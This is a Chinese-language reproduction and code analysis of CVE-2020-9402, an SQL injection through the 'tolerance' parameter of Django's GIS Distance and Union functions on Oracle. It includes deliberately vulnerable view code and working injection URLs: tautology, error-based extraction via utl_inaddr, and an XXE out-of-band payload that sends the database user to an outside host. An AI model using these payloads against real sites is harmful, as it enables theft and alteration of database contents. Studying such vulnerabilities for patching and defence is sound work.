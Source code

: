 ```yaml
---
title: "（CVE-2020-9402）Django Geo sql注入"
id: zhfly2888
---
```


# （CVE-2020-9402）Django Geo sql注入

## 一、漏洞简介

Django 1.11.29之前的1.11.x版本、2.2.11之前的2.2.x版本和3.0.4之前的3.0.x版本中存在SQL注入漏洞。攻击者可借助特制的SQL语句利用该漏洞查看、添加、修改或删除数据库中的信息。

## 二、漏洞影响

Django 1.11.29之前的1.11.x版本、2.2.11之前的2.2.x版本和3.0.4之前的3.0.x版本中存在SQL注入漏洞

## 三、复现过程

根据官网的修复https://github.com/django/django/commit/6695d29b1c1ce979725816295a26ecc64ae0e927#diff-229e38ececbfc591f7a5e595bf5707c4，可以看到问题出在GIS的查询上面

![image](../img/4001c7102fd4edbb5d99e20d00630e34.png)

![image](../img/be2455a91aeaa6c76fda084d6270d15b.png)

官方只修复了这两个位置，可以发现基本上是对于`tolerance`参数进行判断是否为数字。那首先来了解一下GIS查询。

GIS查询API是一个地理位置的查询API，提供用户存储精确GPS的位置的数据模块，属于一个空间数据库，我们可以通过如下的经纬度信息

```
pnt = GEOSGeometry('POINT(-96.876369 29.905320)', srid=4326) `>>>SRID=4326;POINT (-96.876369 29.90532)` 
```

来获得一个具体的定位信息,通过如下的模块来构建一个基本的地理信息存储

```
from django.contrib.gis.db import models
class Names(models.Model):
    name = models.CharField(max_length=128)

```
def __str__(self):
    return self.name 
``` `class Interstate(Names):

path = models.LineStringField()` 
```

后台存储的时候发出path的信息为json数据，例如

```
{"type":"LineString","coordinates":[[-8167.236601807093,-3286.248045708844],[-7896.285624495958,-3324.9553281818644],[1083.8039092445451,-654.1528375435246]]} 
```

![image](../img/50b47c7c8a562c4b4349c8880e45343b.png)

我们就获得了一个基本的地理位置数据,同理，通过构造一个聚合的查询方法

```
def vuln(request):
    q = request.GET.get('q')
    qs=Interstate.objects.annotate(
            d=Distance(
                Point(-0.0733675346842369, -0.0295208671625432, srid=4326),
                Point(0.009735976166628611, -0.00587635491086091, srid=4326),
                tolerance = q, # default 0.05
            ),
        ).filter(d=D(m=1)).values('name') 
```

因为官网文档找不到如何构造Point查询，因此为了省事，直接写死了Point数值。。srid为空间参考的投影设置，默认值为4326。其中`tolerance`是对于oracle特殊存在的一个键值，其作用是基本你的容错率，详细的信息可以参考[oracle官方文档](https://docs.oracle.com/en/database/oracle/oracle-database/18/spatl/spatial-concepts.html#GUID-CE10AB14-D5EA-43BA-A647-DAC9EEF41EE6)。对应的查询语句为

```
SELECT "APP_NAMEDMODEL"."NAME" FROM "APP_INTERSTATE" INNER JOIN "APP_NAMEDMODEL" ON ("APP_INTERSTATE"."NAMEDMODEL_PTR_ID" = "APP_NAMEDMODEL"."ID") WHERE SDO_GEOM.SDO_DISTANCE(SDO_GEOMETRY(POINT (-0.0733675346842369 -0.0295208671625432),4326), SDO_GEOMETRY(POINT (0.009735976166628611 -0.00587635491086091),4326), 0.05) =  1.0 FETCH FIRST 21 ROWS ONLY; 
```

**0x02代码分析**
首先从传入一个url

```
http://127.0.0.1:8000/vuln/?q=20) = 1 OR 1=1 OR (1%2B1 
```

从`annotate`聚合函数开始跟进，同普通的model函数查询一样，gis查询虽然拥有着单独的model模块，但依旧还是依靠着普通model中进行过滤和查询。从gis的model文件夹中的`__init__.py`文件中看

![image](../img/e027e3c87ede9bb57ac1c66821ec9194.png)

主要的查询依然调用的是django最基本的db方法，而其中单独定义了`function`方法等一些对地理位置插叙独特的方法。程序运行到`/django/db/models/manager.py`文件中的`_get_queryset_methods`后，获取到tolerant参数之后便直接进入到gis模块中进行查询

![image](../img/20d8c2e4266f658f0b40a3ec8f27dce9.png)

继而进入到`django/contrib/gis/measure.py`文件中的`MeasureBase`类中进行方法调用，那么后面的方法分析可以跳过，因此直接来到漏洞代码段。先来看gis API中的functions函数，在as_oracle方法这一段

```
def as_oracle(self, compiler, connection, **extra_context):
    tol = self.extra.get('tolerance', self.tolerance)
    return self.as_sql(
        compiler, connection,
        template="%%(function)s(%%(expressions)s, %s)" % tol,
        **extra_context
    ) 
```

`tolerance` 从self.extra.get导入，该方法会搜索全局变量的值，如果该值不存在，则直接设置为0.05，并且将其直接传入到新的变量中。之后则不对tol进行任何处理直接拼接到template字符串中并且传入`as_sql`方法。那么官方对于as_sql的文档是，此方法需要一个SQLCompiler对象，位于`django/db/models/sql/compiler.py`文件中。而我们只需要知道在该对象中有一个`compile()`方法，该方法可以返回一个包含SQL字符串的元祖，而SQLComiler对象中的query变量则是存储直接进行SQL查询语句的SQL命令。从而两个Point分别进入`compile`方法中进行拼接

![image](../img/7d5ce17ea92c6638d3b630613a9fb2cd.png)

不知道为什么，用pycharm在as_oracle下断点的时候，第一次到达SQLCompiler的时候，pycharm不会在as_oracle函数中停下来，而是在第二次查询的时候才会停，但是经过测试确实是在进入SQLCompiler之前调用过as_orcle函数，可能是pycharm没有正确识别重载函数吧。之后template构造模版也因此进入到`expression.py`中的as_sql函数中进行字符串构造

![image](../img/4380b584f2e803a5c9e84db724be2749.png)

因此最后进入oracle的命令语句是

```
SELECT "APP_NAMEDMODEL"."NAME" FROM "APP_INTERSTATE" INNER JOIN "APP_NAMEDMODEL" ON ("APP_INTERSTATE"."NAMEDMODEL_PTR_ID" = "APP_NAMEDMODEL"."ID") WHERE SDO_GEOM.SDO_DISTANCE(SDO_GEOMETRY(POINT (-0.0733675346842369 -0.0295208671625432),4326), SDO_GEOMETRY(POINT (0.009735976166628611 -0.00587635491086091),4326), 0.05) = 1 OR 1=1  OR (1+1) = 1.0 FETCH FIRST 21 ROWS ONLY; 
```

![image](../img/d863ec736b19cc345ee03e518347ada6.png)

带入数据库中查询

![image](../img/8d75b8a222415728d69d2775f1c732c0.png)

![image](../img/4c55ad56c79fc71e41c53522f8447b59.png)

官方修复的方法就是加入Value函数，判断传入的值是否为数字，否的话直接报错推出。那么第二个注入点就是`Union`了，建立Model

```
class City(Names):
    point = models.PointField()  # 点模块 
```

编辑传入的参数为

```
{"type":"Point","coordinates":[13250.226757682816,68815.69380603009]} 
```

view中设置查询

```
from django.contrib.gis.db.models import Union
def vuln2(request):
    q = request.GET.get('q')
    res = City.objects.aggregate(
            Union('point', tolerance=q),
    )
    return HttpResponse(res) 
```

输入url

```
http://127.0.0.1:8000/vuln2?q=0.05)))%2C%20(((1 
```

首先看结果，得到的SQL查询语句为

```
SELECT SDO_UTIL.TO_WKBGEOMETRY(SDO_AGGR_UNION(SDOAGGRTYPE("APP_CITY"."POINT",0.05))), (((1))) AS "POINT__UNION" FROM "APP_CITY"; 
```

![image](../img/ed5a98bf03b53288e05b7e938d15af66.png)

该aggregate查询方法是GIS查询特定的一种查询方法，为的是与地理查询的语句做适配,用法跟原模块的方法类似。因此跟进GIS模块中的聚合查询方法，位于`django/contrib/gis/db/models/aggregates.py`文件内的as_oracle方法。

![image](../img/a7fa788e2fb3f8974986696c8879e640.png)

同样tolerance没有做任何检查直接传入了template模版语句中，原理与上面annotate查询过程一致。利用有大致两个方法
报错注入

```
http://localhost:8000/test/?q=20) = 1 OR (select utl_inaddr.get_host_name((SELECT version FROM v%24instance)) from dual) is null%20 OR (1%2B1 
```

![image](../img/c8cff634ec6996318f116355a45c2594.png)

CVE-2014-6577
因为Django自2.0以后支持的oracle版本为12以上，因此可以尝试oracle XXE来进行SQL的注入。同时因为在SQL处理的过程中有三次利用%的模版跳转，因此需要在XMLpayload中的%替换为%%%%，payload为

```
http://localhost:8000/test/?q=20) = 1 OR (select%20extractvalue(xmltype('%3C%3Fxml%20version%3D%221.0%22%20encoding%3D%22UTF-8%22%3F%3E%3C!DOCTYPE%20root%20%5B%20%3C!ENTITY%20%25%25%25%25%20remote%20SYSTEM%20%22http%3A%2F%2Fdocker.for.mac.host.internal%3A9000%2F'%7C%7C(SELECT%20user%20from%20dual)%7C%7C'%22%3E%20%25%25%25%25remote%3B%5D%3E')%2C'%2Fl')%20from%20dual)%20is%20not%20null OR (1%2B1 
```

![image](../img/deb8db37543ec569ee0d991a093d7b03.png)

命令执的话因为是docker起的oracle所以没有设置JAVA的环境，暂时也不能判定有没有，以后再研究看看。

## 参考链接

> https://xz.aliyun.com/t/7403